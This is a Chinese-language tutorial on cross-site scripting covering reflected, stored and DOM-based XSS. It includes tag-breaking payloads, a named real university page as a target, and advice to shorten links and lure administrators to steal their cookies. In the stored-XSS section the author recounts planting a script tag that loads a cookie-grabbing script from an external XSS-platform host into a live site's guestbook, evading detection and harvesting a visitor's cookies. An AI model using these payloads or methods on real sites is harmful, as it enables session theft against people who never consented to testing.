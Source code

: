 # XSS分类与漏洞挖掘

![](/attackUsers/xss/image/xss-17.png)

---
## 01. 前言
当第一期出来的时候，反馈很好，但还是有很多人提出疑问，我这里就解答下。

```
问1：如果我输入PHP语句会不会执行。
答1：不会，因为XSS是面对前台的(用户可见部分)，而PHP则是后台处理(用户不可见部分)，如果可以执行PHP语句的话，那不叫XSS，叫"任意代码执行"。

问2：XSS和CSRF有什么区别么？
答2：有的，XSS是获取信息，不需要提前知道其他用户页面的代码和数据包。CSRF是代替用户完成指定的动作，需要知道其他用户页面的代码和数据包。

问3：为什么我在chrome浏览器下测试<script>alert("xss")</script>并没有成功。
答3：chrome内核与ie内核不一样，chrome的过滤机制比ie强。现在测试xss一般都拿能过chrome的为主，所以当你输入xss的时候，可能被chrome的过滤机制给过滤了。
```

## 02. 反射型XSS
反射XSS是XSS分类中最多的，他们原理是下面这样：

>Hacker——发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码、缩短(可有可无，是为了增加迷惑性)——发送给受害人——受害打开后，执行XSS代码——完成hacker想要的功能(获取cookies、url、浏览器信息、IP等等)

原理搞清楚，那就说说怎么挖掘吧.
现在市面上的软件(JSky、Safe3WVS、Netsparker等)都可以挖掘出反射XSS，但是想要那些更隐蔽的XSS还是需要手工的，我先使用软件挖掘一些反射XSS，然后介绍手工挖掘。

![](/attackUsers/xss/image/xss-18.png)

找到后，我们来打开

```
http://gdjy.hfut.edu.cn/viewcomp.jsp?id=hzgz123
```

打开后，我们试着在参数也就是id=hzgz123后面加上woaini(或则其他字符，这串字符必须保持唯一性，也就是说在整个网站里，他必须唯一一个不和其他字符相同的字符串)输入woaini后，打开，查看源代码(ctrl+u)，按下ctrl+f来搜索woaini字符串，看出现在哪个位置。

![](/attackUsers/xss/image/xss-19.png)

我们发现woaini字符在a标签的href属性里，那我们就可以根据这个环境来构造了，我们可以用`"></a><script>alert("xss")</script>`来先闭合掉a标签。然后再用script来运行js代码。也可以这样`onclick="alert(1)";>123</a>//`点击123触发onclick来运行js，然后把后面的内容来注释掉。构造好代码后，把url变成短连接，发送给管理员，诱惑管理员打开，就可以获取管理员的cookies了。

OK，软件挖XSS大致就这些，手工其实和这差不多，手工的话，记住一句话“`见框就插`、`改数据包不可见部分`、`改URL参数`、`js分析`”就可以了。改数据包、js分析比较深，现在我就不再阐述了，见框就插，大家应该都明白，** 找到一个input输入框，先输入唯一字符串，然后看源代码里有没有出现** ，再输入`<>""/&()`来看看过滤了哪些字符，根据过滤的字符，来构造xss。

下图是QQ空间一处反射XSS，因为是朋友给的，我也不清楚是否被提交，所以我就不放出了。

![](/attackUsers/xss/image/xss-20.png)

## 03 储蓄型XSS
PS：有的人叫持久型，各有各的叫法，所以不用太介意。

储蓄型XSS其实和反射型XSS差不多，只是储蓄型把数据保存到服务端，而反射型只是让XSS游走在客户端上。下面是我在某处网站上检测到的储蓄XSS，大家知道原理就OK。

目标站点：`http://www.*******.com/`

习惯性的打开留言处(book.asp)，点击留言(这里最好不要使用<script>alert("xss")</script>来测试是否存在XSS漏洞，容易被管理员发现，所以你可以使用<a></a>来测试，如果成功了，不会被管理员发现)OK，我先在留言里出输入<a>s</a>提交留言，F12打开审查元素，来看我们输入的标签是否被过滤了.

![](/attackUsers/xss/image/xss-21.png)

OK，发现没有过滤(如果`<a>s</a>`是彩色的说明没有过滤，如果是灰色就说明过滤了)

那我就在xss平台里创建一个项目，然后再次留言，里面写上，“`<script src="http://xss8.pw/EFe2Ga?1409273226"></script>`请问怎么报名啊”

![](/attackUsers/xss/image/xss-22.png)

名字是我乱起的，这样一来，只要你访问`http://www.******.com/book.asp`

就可以获取你的cookies，以及后台地址(因为留言板一般都在后台做审核)。但是，管理员好像死了，已经6天了，还没看。今天上xss平台一看有个cookies，看了下，是路人的，并不是管理员的。

![](/attackUsers/xss/image/xss-23.png)

但是使用方法大家也应该懂了。只要你打开 `http://www.******.com/book.asp` 我就会在第一时间获取你的cookies。

## 04. DOM XSS
DOM XSS是基于在js上的。而且他不需要与服务端进行交互，像反射、储蓄都需要服务端的反馈来构造xss，因为服务端对我们是不可见的

挖掘DOM XSS比较麻烦，因为有时你需要追源，对方可能会自定义函数，所以你需要一步一步来把对方自定义的函数来搞清楚。下面我举个最简单的例子：

在1.html里输入

```html
<script>
          document.write(document.URL.substring(document.URL.indexOf("a=")+2,document.URL.length));
</script>
```

在这里我先解释下上面的意思

```
Document.write  是把里面的内容写到页面里。
document.URL    是获取URL地址。
Substring       从某处到某处，把之间的内容获取。
document.URL.indexOf("a=")+2  是在当前URL里从开头检索a=字符，然后加2(因为a=是两个字符，我们需要把他略去)，同时他也是substring的开始值
document.URL.length  是获取当前URL的长度，同时也是substring的结束值。
```

合起来的意思就是：在URL获取`a=`后面的值，然后把`a=`后面的值给显示出来。

我们打开，看看

![](/attackUsers/xss/image/xss-24.png)

怎么会出现这个问题呢？

因为当前url并没有`a=`的字符，而`indexOf`的特性是，当获取的值里，如果没有找到自己要检索的值的话，返回-1。找到了则返回0。那么`document.URL.indexOf("a=")`则为-1，再加上2，得1。然后一直到URL最后。这样一来，就把file的f字符给略去了，所以才会出现`ile:///C:/Users/Administrator/Desktop/1.html`
